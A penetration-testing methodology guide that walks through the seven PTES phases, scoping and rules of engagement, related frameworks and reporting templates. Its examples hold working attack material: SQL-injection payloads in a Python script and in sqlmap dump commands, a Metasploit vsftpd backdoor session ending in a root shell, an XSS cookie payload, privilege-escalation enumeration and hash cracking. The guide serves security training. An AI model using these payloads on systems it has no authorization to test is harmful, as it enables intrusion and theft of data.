





# Penetration Testing Methodology

## Overview

A penetration testing methodology is a systematic framework that guides security professionals through the process of identifying, exploiting, and documenting security vulnerabilities in systems, networks, and applications. Unlike ad-hoc security testing, a structured methodology ensures comprehensive coverage, repeatable results, and professional deliverables.

The importance of following a well-defined methodology cannot be overstated. It ensures that:

- **Coverage is comprehensive**: All attack surfaces are examined systematically
- **Results are repeatable**: Other professionals can reproduce your findings
- **Legal compliance is maintained**: Activities stay within authorized scope
- **Client expectations are met**: Professional deliverables and clear communication
- **Quality is consistent**: Standardized approach yields reliable results

This guide covers industry-standard penetration testing methodologies including the Penetration Testing Execution Standard (PTES), NIST SP 800-115, and OWASP Testing Guide, providing you with the knowledge to conduct professional, effective security assessments.

### Prerequisites

Before diving into penetration testing methodology, you should have:

- Solid understanding of networking fundamentals (TCP/IP, routing, protocols)
- Familiarity with Linux and Windows operating systems
- Basic scripting knowledge (Python, Bash, or PowerShell)
- Understanding of common vulnerabilities and attack vectors
- Awareness of legal and ethical considerations in security testing

### Learning Objectives

By the end of this guide, you will:

- Understand the complete penetration testing lifecycle
- Know the differences between testing types (Black/White/Grey box)
- Master the PTES framework and its seven phases
- Learn proper scoping and rules of engagement
- Understand legal and ethical requirements
- Be able to plan and execute professional penetration tests

## Key Concepts

### What is Penetration Testing?

Penetration testing (pentesting) is an authorized simulated cyber attack against a computer system, network, or application to evaluate its security posture. Unlike vulnerability assessments that simply identify potential weaknesses, penetration testing actively exploits vulnerabilities to demonstrate real-world impact and risk.

**Key characteristics of penetration testing:**

- **Authorized**: Always conducted with explicit written permission
- **Goal-oriented**: Simulates real attacker objectives (data theft, system access, etc.)
- **Exploitation-focused**: Goes beyond identification to demonstrate impact
- **Time-bound**: Conducted within a specific timeframe
- **Documented**: Produces comprehensive reports with remediation guidance

### Penetration Testing vs. Other Security Activities

| Activity | Purpose | Depth | Exploitation |
|----------|---------|-------|--------------|
| **Penetration Testing** | Find and exploit vulnerabilities | Deep, targeted | Yes |
| **Vulnerability Assessment** | Identify potential weaknesses | Broad, shallow | No |
| **Red Teaming** | Test detection and response | Very deep | Yes |
| **Security Audit** | Verify compliance | Process-focused | No |
| **Bug Bounty** | Continuous vulnerability discovery | Variable | Limited |

### Types of Penetration Tests

Penetration tests are categorized by the level of information provided to the tester:

#### Black Box Testing

**Definition**: The tester has no prior knowledge of the target infrastructure.

**Characteristics:**
- Simulates external attacker perspective
- No credentials or internal information provided
- Focuses on publicly accessible attack surfaces
- Longer time required for reconnaissance
- Tests external defenses and public-facing systems

**Best for**: Evaluating external security posture, testing perimeter defenses

**Example scenario**: Testing a company's web application and public infrastructure without any internal knowledge

#### White Box Testing

**Definition**: The tester has complete knowledge of the target infrastructure.

**Characteristics:**
- Full access to documentation, source code, and credentials
- Simulates malicious insider or comprehensive audit
- Can identify deeper, logic-based vulnerabilities
- More efficient use of testing time
- Comprehensive coverage of all systems

**Best for**: Source code review, comprehensive security audits, compliance testing

**Example scenario**: Full application security assessment with access to source code, architecture diagrams, and test credentials

#### Grey Box Testing

**Definition**: The tester has partial knowledge of the target infrastructure.

**Characteristics:**
- Limited information provided (e.g., user-level credentials)
- Balances realism with efficiency
- Simulates compromised user account scenario
- Common in web application testing
- Most realistic for many attack scenarios

**Best for**: Internal threat simulation, web application testing, authenticated assessments

**Example scenario**: Testing with regular user credentials to simulate compromised employee account

### Scope and Rules of Engagement

The **scope** defines what systems, networks, and applications are authorized for testing. A well-defined scope includes:

- **In-scope targets**: IP ranges, domains, applications, specific systems
- **Out-of-scope targets**: Systems explicitly excluded from testing
- **Allowed testing methods**: Permitted attack types and techniques
- **Restricted actions**: Activities not permitted (e.g., DoS attacks, social engineering)
- **Testing timeframe**: Dates and times when testing is authorized
- **Contact information**: Emergency contacts and escalation procedures

The **Rules of Engagement (RoE)** document formalizes the testing parameters:

```markdown
## Sample Rules of Engagement Elements

1. **Scope Definition**
   - IP ranges: 192.168.1.0/24, 10.0.0.0/16
   - Domains: *.example.com, app.example.net
   - Excluded: production-db.example.com, payment.example.com

2. **Testing Methods**
   - Allowed: Network scanning, web application testing, authentication attacks
   - Prohibited: DoS/DDoS, physical attacks, social engineering

3. **Timeframe**
   - Testing window: June 1-15, 2024
   - Allowed hours: 09:00-17:00 EST (Weekdays only)

4. **Contacts**
   - Primary: security@example.com
   - Emergency: +1-555-0100 (24/7 SOC)

5. **Data Handling**
   - No exfiltration of real customer data
   - Encrypt all findings
   - Secure deletion post-engagement
```

!!! warning "Legal Considerations"
    Never begin testing without a signed authorization document. Unauthorized access is illegal under laws such as the Computer Fraud and Abuse Act (CFAA) in the US, Computer Misuse Act in the UK, and similar legislation worldwide. Always ensure you have explicit written permission.

## Technical Details

### The Penetration Testing Execution Standard (PTES)

The PTES is a comprehensive framework developed by security professionals to standardize penetration testing processes. It consists of seven phases that guide testers from initial planning through final reporting.



#### Phase 1: Pre-engagement Interactions

**Objective**: Establish scope, rules of engagement, and contractual agreements before testing begins.

**Key Activities:**

1. **Initial Contact and Scoping**
   - Understand client's security concerns and objectives
   - Identify systems, networks, and applications to test
   - Define testing depth and breadth
   - Establish budget and timeline

2. **Scope Definition**
   - Document all in-scope and out-of-scope targets
   - Identify third-party dependencies
   - Clarify allowed and prohibited actions
   - Define success criteria

3. **Rules of Engagement Creation**
   - Testing timeframes and schedules
   - Communication protocols
   - Emergency contact procedures
   - Notification requirements (e.g., critical findings)

4. **Legal and Administrative**
   - Non-Disclosure Agreement (NDA)
   - Penetration testing authorization letter
   - Statement of Work (SoW)
   - Liability and indemnification clauses

**Deliverables:**
- Signed authorization letter
- Detailed scope document
- Rules of Engagement
- Project plan and timeline

!!! tip "Best Practice"
    Always get written authorization before beginning any testing activity. A verbal agreement is insufficient and could lead to legal consequences.

#### Phase 2: Intelligence Gathering (Reconnaissance)

**Objective**: Collect as much information as possible about the target to identify potential attack vectors.

**Intelligence Types:**

1. **Passive Intelligence Gathering**
   - No direct interaction with target systems
   - OSINT (Open Source Intelligence) collection
   - Search engines, social media, public records
   - WHOIS and DNS lookups
   - Job postings and organizational information

2. **Active Intelligence Gathering**
   - Direct interaction with target systems
   - Port scanning and service enumeration
   - Network mapping
   - Banner grabbing
   - Application fingerprinting

**Information Targets:**

| Category | Information Sought | Tools/Techniques |
|----------|-------------------|------------------|
| Network | IP ranges, domains, DNS servers | WHOIS, dig, nslookup |
| Organization | Employees, structure, technology stack | LinkedIn, job postings |
| Infrastructure | Web servers, mail servers, technology | Netcraft, BuiltWith, Wappalyzer |
| People | Email formats, roles, interests | theHarvester, Hunter.io |
| Security | Firewalls, IDS/IPS, security practices | Shodan, Censys |

**Example Passive Reconnaissance:**

```bash
# WHOIS lookup for domain information
whois example.com

# DNS enumeration
dig example.com ANY
nslookup -type=ANY example.com

# Search for subdomains (passive)
# Using certificate transparency logs
curl -s "https://crt.sh/?q=%25.example.com&output=json" | jq -r '.[].name_value' | sort -u

# Email harvesting
theHarvester -d example.com -b google,bing,linkedin
```

#### Phase 3: Threat Modeling

**Objective**: Analyze collected intelligence to identify potential attack vectors and prioritize testing efforts.

**Key Activities:**

1. **Asset Classification**
   - Identify critical assets (databases, authentication systems, sensitive data)
   - Map business impact of potential compromises
   - Prioritize high-value targets

2. **Attack Vector Identification**
   - External network attacks
   - Web application vulnerabilities
   - Social engineering opportunities
   - Physical security weaknesses
   - Wireless network attacks

3. **Threat Actor Simulation**
   - Define attacker profiles (script kiddie, organized crime, nation-state)
   - Determine likely attack paths
   - Establish realistic attack scenarios

4. **Attack Tree Development**
   - Create visual representations of attack paths
   - Identify dependencies and prerequisites
   - Map attack complexity and likelihood

**Example Threat Model:**



#### Phase 4: Vulnerability Analysis

**Objective**: Identify and validate vulnerabilities in the target environment.

**Vulnerability Identification Methods:**

1. **Automated Scanning**
   - Vulnerability scanners (Nessus, OpenVAS, Qualys)
   - Web application scanners (Burp Suite, OWASP ZAP)
   - Network scanners (Nmap with scripts)

2. **Manual Analysis**
   - Configuration review
   - Code review (if white box)
   - Logic flaw identification
   - Business logic testing

3. **Vulnerability Validation**
   - Confirm scanner findings (reduce false positives)
   - Assess exploitability
   - Determine potential impact
   - Map to threat model

**Vulnerability Categorization:**

| Category | Examples | Severity |
|----------|----------|----------|
| **Critical** | Remote code execution, SQL injection with data access | Immediate action required |
| **High** | Authentication bypass, privilege escalation | Address urgently |
| **Medium** | Information disclosure, weak encryption | Plan remediation |
| **Low** | Version disclosure, missing headers | Best practice improvements |
| **Informational** | Observations, configurations | Awareness |

**Example Vulnerability Scanning:**

```bash
# Nmap vulnerability scanning with NSE scripts
nmap -sV --script vuln 192.168.1.100

# Web application vulnerability scanning with Nikto
nikto -h https://example.com

# SSL/TLS testing
sslscan example.com
testssl.sh example.com
```

#### Phase 5: Exploitation

**Objective**: Attempt to exploit identified vulnerabilities to demonstrate real-world impact and assess actual risk.

**Exploitation Approach:**

1. **Exploit Selection**
   - Choose reliable exploits from databases (Exploit-DB, Metasploit)
   - Develop custom exploits when necessary
   - Consider exploit stability and impact
   - Plan for exploit failure and alternatives

2. **Exploit Execution**
   - Test in controlled manner
   - Monitor for unintended consequences
   - Document all attempts (successful and failed)
   - Maintain detailed logs

3. **Proof of Concept**
   - Demonstrate vulnerability impact
   - Capture evidence (screenshots, logs)
   - Show data access or system control
   - Document exploit reliability

**Exploitation Best Practices:**

!!! danger "Critical Safety Measures"
    - Always have a rollback plan
    - Avoid DoS and destructive actions unless explicitly authorized
    - Test exploits in lab environment first when possible
    - Monitor system stability during exploitation
    - Immediately report critical findings to client
    - Never exfiltrate actual customer data

**Example Exploitation Workflow:**

```python
# Example: Testing SQL injection vulnerability (simplified)

import requests

# 1. Identify injection point
url = "https://example.com/search?id=1"

# 2. Test for SQL injection
payloads = [
    "1' OR '1'='1",
    "1' UNION SELECT NULL--",
    "1'; WAITFOR DELAY '00:00:05'--"
]

for payload in payloads:
    test_url = f"{url.replace('id=1', f'id={payload}')}"
    response = requests.get(test_url)

    # Analyze response for SQL error messages or behavior changes
    if "SQL" in response.text or "syntax error" in response.text:
        print(f"[+] Potential SQL injection: {payload}")

# 3. Exploit to extract data (proof of concept only)
# Extract database version
exploit_url = url.replace('id=1', "id=1' UNION SELECT @@version--")
response = requests.get(exploit_url)
print(f"Database version: {response.text}")
```

**Metasploit Framework Example:**

```bash
# 1. Search for exploit
msfconsole
msf6 > search vsftpd

# 2. Use exploit module
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

# 3. Set target and options
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.1.100
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RPORT 21

# 4. Select payload
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set PAYLOAD cmd/unix/interact

# 5. Exploit
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

# 6. Interact with session
[*] Command shell session 1 opened
id
uid=0(root) gid=0(root)
```

#### Phase 6: Post-Exploitation

**Objective**: Determine the full impact of compromise, maintain access, and gather evidence of business risk.

**Post-Exploitation Activities:**

1. **Privilege Escalation**
   - Elevate from user to admin/root
   - Exploit kernel vulnerabilities
   - Abuse misconfigurations (sudo, SUID binaries)
   - Token manipulation (Windows)

2. **Maintaining Access**
   - Create backdoors (authorized by client)
   - Add user accounts
   - Install persistent mechanisms
   - Document for removal post-engagement

3. **Lateral Movement**
   - Identify additional targets
   - Pivot to internal networks
   - Compromise additional systems
   - Map trust relationships

4. **Data Collection**
   - Identify sensitive data locations
   - Document data access (without exfiltration)
   - Capture evidence of compromise
   - Demonstrate business impact

5. **Covering Tracks** (Simulation)
   - Demonstrate detection evasion techniques
   - Clear logs (for awareness, not actual concealment)
   - Document what could be hidden from defenders
   - Test monitoring and detection capabilities

**Example: Linux Privilege Escalation**

```bash
# Enumerate system for privilege escalation vectors

# 1. Check current privileges
id
sudo -l

# 2. Find SUID binaries
find / -perm -4000 -type f 2>/dev/null

# 3. Check for writable files in PATH
echo $PATH
ls -la /usr/local/bin

# 4. Examine cron jobs
cat /etc/crontab
ls -la /etc/cron.*

# 5. Check kernel version for known exploits
uname -a
searchsploit linux kernel $(uname -r | cut -d'-' -f1)

# 6. Use automated tools
./linpeas.sh
./linenum.sh
```

**Example: Windows Privilege Escalation**

```powershell
# Windows privilege escalation enumeration

# 1. Check current privileges
whoami /all

# 2. List installed patches
wmic qfe list

# 3. Check for unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# 4. Find always-install elevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# 5. Use automated tools
.\winPEAS.exe
.\PowerUp.ps1; Invoke-AllChecks
```

#### Phase 7: Reporting

**Objective**: Document findings, demonstrate impact, and provide actionable remediation recommendations.

**Report Components:**

1. **Executive Summary**
   - High-level overview for non-technical stakeholders
   - Overall risk assessment
   - Key findings summary
   - Business impact analysis
   - Strategic recommendations

2. **Technical Report**
   - Detailed findings for technical teams
   - Exploitation steps and evidence
   - Vulnerability details
   - Risk ratings (CVSS scores)
   - Specific remediation steps

3. **Appendices**
   - Testing methodology
   - Tools used
   - Raw scan data
   - Screenshots and evidence
   - References

**Finding Documentation Template:**

```markdown
## Finding: SQL Injection in Search Parameter

**Severity**: Critical (CVSS: 9.8)

**Affected Component**:
- URL: https://example.com/search
- Parameter: id
- Component: Search functionality

**Description**:
The search functionality is vulnerable to SQL injection via the 'id' parameter.
An attacker can manipulate SQL queries to extract sensitive data from the
database, bypass authentication, or potentially execute commands on the
database server.

**Steps to Reproduce**:
1. Navigate to https://example.com/search?id=1
2. Modify the id parameter to: 1' OR '1'='1
3. Observe that all records are returned, indicating successful injection
4. Extract database version using: 1' UNION SELECT @@version--

**Evidence**:
[Screenshot showing SQL injection payload and results]
[Database version string extracted]

**Impact**:
- Unauthorized access to customer database containing PII
- Potential for data exfiltration of 100,000+ customer records
- Possible authentication bypass for admin panel
- Risk of database server compromise

**Remediation**:
1. Immediate: Implement prepared statements/parameterized queries
2. Short-term: Add input validation and sanitization
3. Long-term: Implement Web Application Firewall (WAF)
4. Conduct code review for similar vulnerabilities
5. Security training for development team

**References**:
- OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
- CWE-89: https://cwe.mitre.org/data/definitions/89.html
```

### Other Penetration Testing Frameworks

While PTES is comprehensive, other frameworks provide valuable methodologies:

#### NIST SP 800-115

The National Institute of Standards and Technology (NIST) Special Publication 800-115 provides technical guidelines for information security testing and assessment.

**Key Phases:**

1. **Planning** - Coordination, scope definition, rules of engagement
2. **Discovery** - Network discovery, vulnerability detection
3. **Attack** - Exploit vulnerabilities, gain access
4. **Reporting** - Document findings and recommendations

**Focus Areas:**
- Network security testing
- Vulnerability scanning
- Password cracking
- Log review
- Penetration testing
- Social engineering

#### OWASP Testing Guide

The Open Web Application Security Project (OWASP) Testing Guide focuses specifically on web application security testing.

**Testing Categories:**

1. **Information Gathering** - Fingerprinting, discovery
2. **Configuration Testing** - Infrastructure, application configuration
3. **Identity Management** - Authentication, authorization testing
4. **Authentication Testing** - Credential handling, session management
5. **Authorization Testing** - Access control testing
6. **Session Management** - Cookie security, session handling
7. **Input Validation** - Injection flaws, XSS, file uploads
8. **Error Handling** - Information disclosure
9. **Cryptography** - Weak encryption, SSL/TLS issues
10. **Business Logic** - Application workflow flaws
11. **Client-Side Testing** - JavaScript, DOM issues

#### OSSTMM (Open Source Security Testing Methodology Manual)

OSSTMM provides a scientific methodology for security testing with focus on:

- **Operational Security** - Human, physical, wireless security
- **Technical Security** - Communications, data networks
- **Metrics and Measurement** - Quantitative security assessment
- **Repeatability** - Consistent, reproducible results

## Practical Examples

### Example 1: Complete Penetration Test Workflow

Let's walk through a simplified penetration test from start to finish:

**Scenario**: External network penetration test of a small business with web application.

**Phase 1: Pre-engagement**

```markdown
## Scope Document

**Client**: Example Corp
**Test Type**: External Black Box Penetration Test
**Duration**: 40 hours over 2 weeks
**Timeline**: June 1-14, 2024

**In Scope**:
- example.com and all subdomains
- IP range: 203.0.113.0/24
- Web applications on port 80/443

**Out of Scope**:
- Third-party services (payment processors, CDN)
- DoS/DDoS attacks
- Physical security testing
- Social engineering

**Objectives**:
1. Identify vulnerabilities in web applications
2. Assess network perimeter security
3. Test for unauthorized data access
4. Provide remediation recommendations
```

**Phase 2: Intelligence Gathering**

```bash
# Passive reconnaissance
whois example.com
dig example.com ANY
theHarvester -d example.com -b all

# Subdomain enumeration
subfinder -d example.com
amass enum -d example.com

# Technology fingerprinting
whatweb https://example.com
```

**Findings**: Discovered 3 subdomains: www, mail, admin. Technology stack: Apache 2.4, PHP 7.4, MySQL.

**Phase 3: Threat Modeling**

Attack vectors identified:
1. Web application vulnerabilities (SQL injection, XSS)
2. Weak SSH credentials
3. Outdated Apache version
4. Admin subdomain may have weak authentication

**Phase 4: Vulnerability Analysis**

```bash
# Port scanning
nmap -sS -sV -p- 203.0.113.10

# Web vulnerability scanning
nikto -h https://example.com
burpsuite # Manual testing

# SSL/TLS testing
sslscan example.com
```

**Vulnerabilities found**:
- SQL injection in search parameter
- Cross-Site Scripting (XSS) in comment form
- Weak SSL configuration (TLS 1.0 enabled)
- Directory listing enabled
- Outdated jQuery version

**Phase 5: Exploitation**

```bash
# Exploit SQL injection
sqlmap -u "https://example.com/search?id=1" --dbs

# Extract data (proof of concept)
sqlmap -u "https://example.com/search?id=1" -D webapp -T users --dump --batch

# XSS proof of concept
# Payload: <script>alert(document.cookie)</script>
```

**Results**: Successfully extracted database structure, retrieved 10 user records (hashed passwords), demonstrated XSS vulnerability.

**Phase 6: Post-Exploitation**

```bash
# Crack password hashes
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

# Access admin panel with cracked credentials
# Uploaded web shell for persistence
# Explored internal network (found additional systems)
```

**Phase 7: Reporting**

Created comprehensive report with:
- Executive summary highlighting critical SQL injection risk
- 5 detailed findings with CVSS scores
- Evidence (screenshots, extracted data samples)
- Detailed remediation steps
- Strategic security recommendations

### Example 2: Web Application Penetration Test Checklist

```markdown
## Web Application Testing Checklist

### Information Gathering
- [ ] Identify web server and version
- [ ] Enumerate subdomains
- [ ] Discover hidden directories and files
- [ ] Map application structure and entry points
- [ ] Identify technologies and frameworks

### Authentication Testing
- [ ] Test for username enumeration
- [ ] Brute force attack (with permission)
- [ ] Test password complexity requirements
- [ ] Check for default credentials
- [ ] Test password reset functionality
- [ ] Session management testing

### Authorization Testing
- [ ] Test for horizontal privilege escalation
- [ ] Test for vertical privilege escalation
- [ ] Test for insecure direct object references (IDOR)
- [ ] Path traversal attempts

### Input Validation
- [ ] SQL injection (all parameters)
- [ ] Cross-Site Scripting (XSS) - reflected, stored, DOM
- [ ] XML External Entity (XXE)
- [ ] Server-Side Request Forgery (SSRF)
- [ ] Command injection
- [ ] File inclusion (LFI/RFI)
- [ ] File upload vulnerabilities

### Session Management
- [ ] Session token strength
- [ ] Cookie security flags (HttpOnly, Secure, SameSite)
- [ ] Session fixation
- [ ] Session timeout
- [ ] Logout functionality

### Business Logic
- [ ] Payment bypass
- [ ] Race conditions
- [ ] Workflow violations
- [ ] Function abuse

### Client-Side
- [ ] JavaScript security
- [ ] DOM-based vulnerabilities
- [ ] HTML5 security issues
- [ ] Clickjacking
```

## Diagrams & Visualizations

### Complete Penetration Testing Lifecycle



### Testing Type Comparison



### Risk Assessment Matrix



## Best Practices

### 1. Comprehensive Documentation

**Why it matters**: Documentation is your proof of work and protects both you and the client legally.

**Best practices**:
- Document every action with timestamps
- Capture screenshots of all findings
- Save command output and logs
- Maintain detailed notes during testing
- Use note-taking tools (Cherry Tree, Obsidian, Notion)

**Example note structure**:

```markdown
## 2024-06-05 14:30 - SQL Injection Testing

Target: https://example.com/search?id=1

### Test 1: Basic injection
Command: curl "https://example.com/search?id=1'"
Result: SQL error message displayed
Evidence: screenshot_001.png

### Test 2: Boolean-based blind
Command: curl "https://example.com/search?id=1' AND '1'='1"
Result: Normal response (200 OK)
Command: curl "https://example.com/search?id=1' AND '1'='2"
Result: Different response (different content length)
Conclusion: Boolean-based SQL injection confirmed

### Test 3: Data extraction
Command: sqlmap -u "https://example.com/search?id=1" --dbs
Result: 3 databases found: information_schema, mysql, webapp
Evidence: sqlmap_output.txt
```

### 2. Clear Communication

**Client communication guidelines**:

- **Pre-testing**: Confirm scope, schedule kickoff meeting
- **During testing**: Daily status updates, immediate critical finding notifications
- **Post-testing**: Debrief meeting, report walkthrough
- **Follow-up**: Remediation support, re-testing if needed

**Critical finding notification template**:

```
Subject: URGENT: Critical Security Finding - [CLIENT NAME]

Dear [CLIENT CONTACT],

During our penetration test of [SYSTEM], we have identified a CRITICAL
vulnerability that poses immediate risk to your organization.

Finding: SQL Injection allowing database access
Risk: Unauthorized access to customer data
Affected System: https://example.com/search
Immediate Action Required: Disable search functionality until patched

We are available for an emergency call to discuss remediation.

Best regards,
[YOUR NAME]
Penetration Tester
```

### 3. Methodical Approach

**Follow a systematic process**:

1. **Never skip reconnaissance**: More time gathering intel = faster exploitation
2. **Test comprehensively**: Don't stop at first vulnerability
3. **Validate findings**: Eliminate false positives
4. **Document as you go**: Don't rely on memory
5. **Think like attacker**: What would real adversary do?

### 4. Ethical Conduct

**Maintain high ethical standards**:

- Only test authorized systems
- Respect scope boundaries
- Protect client data
- Don't cause harm or disruption
- Report vulnerabilities responsibly
- Maintain confidentiality

!!! warning "Ethical Red Lines"
    **Never**:
    - Test systems without authorization
    - Exfiltrate real customer data
    - Exceed authorized scope
    - Use findings for personal gain
    - Disclose vulnerabilities publicly before remediation
    - Perform testing outside authorized timeframe

### 5. Continuous Learning

**Stay current**:

- Follow security researchers and publications
- Practice on CTF platforms (HackTheBox, TryHackMe)
- Read vulnerability disclosures and exploits
- Attend security conferences (DEF CON, Black Hat, BSides)
- Participate in bug bounty programs
- Take advanced training courses

### 6. Tool Proficiency

**Master your toolkit**:

- **Network**: Nmap, Masscan, Wireshark
- **Web**: Burp Suite, OWASP ZAP
- **Exploitation**: Metasploit, custom scripts
- **Post-Exploitation**: Mimikatz, BloodHound, Empire
- **Reporting**: Dradis, PlexTrac, custom templates

**But remember**: Tools are assistants, not replacements for knowledge and critical thinking.

## Common Pitfalls

### 1. Inadequate Scoping

**Problem**: Scope is vague, incomplete, or misunderstood.

**Consequences**:
- Testing unauthorized systems (legal issues)
- Missing critical assets
- Client dissatisfaction
- Wasted time and effort

**Solution**:
- Request detailed asset lists
- Verify IP ranges and domains
- Get explicit written confirmation
- When in doubt, ask before testing
- Document all scope clarifications

### 2. Poor Time Management

**Problem**: Running out of time, rushing the assessment.

**Consequences**:
- Incomplete testing
- Missed vulnerabilities
- Rushed, low-quality report
- Unprofessional deliverable

**Solution**:
- Create realistic timeline with buffer
- Prioritize high-value targets first
- Track time spent per phase
- Communicate early if timeline is tight
- Focus on quality over quantity

### 3. Over-Reliance on Automated Tools

**Problem**: Using scanners without manual verification or understanding.

**Consequences**:
- False positives in report
- Missed complex vulnerabilities
- Lack of deep understanding
- Professional credibility damage

**Solution**:
- Manually verify all automated findings
- Understand how tools work
- Complement automation with manual testing
- Develop custom tests for unique scenarios
- Critical thinking beats automation

### 4. Insufficient Evidence

**Problem**: Claiming vulnerabilities without proper proof.

**Consequences**:
- Client disputes findings
- Inability to demonstrate impact
- Unprofessional appearance
- Difficulty with remediation

**Solution**:
- Screenshot everything
- Save command output
- Document step-by-step reproduction
- Include timestamps
- Provide multiple forms of evidence

### 5. Ignoring Business Context

**Problem**: Focusing only on technical issues without considering business impact.

**Consequences**:
- Misaligned priorities
- Ineffective recommendations
- Poor risk communication
- Limited value to client

**Solution**:
- Understand client's business
- Assess real-world impact
- Prioritize based on business risk
- Translate technical findings to business language
- Provide strategic, actionable recommendations

### 6. Inadequate Reporting

**Problem**: Poor quality, unclear, or incomplete reports.

**Consequences**:
- Client confusion
- Inability to remediate
- Unprofessional image
- No repeat business

**Solution**:
- Follow structured report template
- Write for your audience (technical + executive)
- Provide clear remediation steps
- Include evidence for all findings
- Proofread thoroughly
- Request peer review

## Tools & Resources

### Essential Penetration Testing Tools

**Reconnaissance**:
- [Nmap](https://nmap.org/) - Network scanner and port mapper
- [theHarvester](https://github.com/laramies/theHarvester) - OSINT gathering
- [Recon-ng](https://github.com/lanmaster53/recon-ng) - Reconnaissance framework
- [Shodan](https://www.shodan.io/) - Internet-connected device search engine

**Vulnerability Scanning**:
- [Nessus](https://www.tenable.com/products/nessus) - Vulnerability scanner
- [OpenVAS](https://www.openvas.org/) - Open-source vulnerability scanner
- [Nikto](https://github.com/sullo/nikto) - Web server scanner

**Web Application Testing**:
- [Burp Suite](https://portswigger.net/burp) - Web application security testing
- [OWASP ZAP](https://www.zaproxy.org/) - Web app security scanner
- [SQLmap](https://sqlmap.org/) - Automated SQL injection tool

**Exploitation**:
- [Metasploit Framework](https://www.metasploit.com/) - Exploitation framework
- [Exploit-DB](https://www.exploit-db.com/) - Exploit database
- [SearchSploit](https://www.exploit-db.com/searchsploit) - Offline exploit search

**Post-Exploitation**:
- [Mimikatz](https://github.com/gentilkiwi/mimikatz) - Windows credential extraction
- [BloodHound](https://github.com/BloodHoundAD/BloodHound) - Active Directory attack paths
- [LinPEAS](https://github.com/carlospolop/PEASS-ng) - Linux privilege escalation enumeration
- [WinPEAS](https://github.com/carlospolop/PEASS-ng) - Windows privilege escalation enumeration

### Methodology Frameworks

- [PTES](http://www.pentest-standard.org/) - Penetration Testing Execution Standard
- [NIST SP 800-115](https://nvlpubs.nist.gov/nistpubs/Legacy/SP/nistspecialpublication800-115.pdf) - Technical Guide to Information Security Testing
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/) - Web application testing methodology
- [OSSTMM](https://www.isecom.org/OSSTMM.3.pdf) - Open Source Security Testing Methodology Manual

### Practice Platforms

- [HackTheBox](https://www.hackthebox.eu/) - Penetration testing labs
- [TryHackMe](https://tryhackme.com/) - Guided cybersecurity training
